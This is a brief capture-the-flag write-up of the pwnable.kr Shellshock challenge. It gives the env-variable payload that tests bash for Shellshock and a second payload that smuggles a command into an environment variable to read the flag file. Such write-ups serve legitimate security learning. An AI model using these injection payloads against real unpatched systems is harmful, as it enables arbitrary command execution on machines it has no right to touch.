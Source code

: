 ```yaml
---
title: Pwnable.kr Shellshock
date: 2022-08-20T14:06:14+02:00
tags: ['cs/security']
aliases: ['']
---
```


This challenge has a bash executable in the home directory which the shellshock
executable runs like below:

```c
system("/home/shellshock/bash -c 'echo shock_me'");
```

The bash binary is vulnerable to [[notes/k5eu | shellshock]] as can be seen by the following
command:


```bash
env x='() { :;}; echo vulnerable' ./bash -c 'echo hello'
```

Since the binary simply calls the bash binary, we can the command below to run
the flag:

```bash
env x='() { :;}; /bin/cat flag' ./shellshock
```
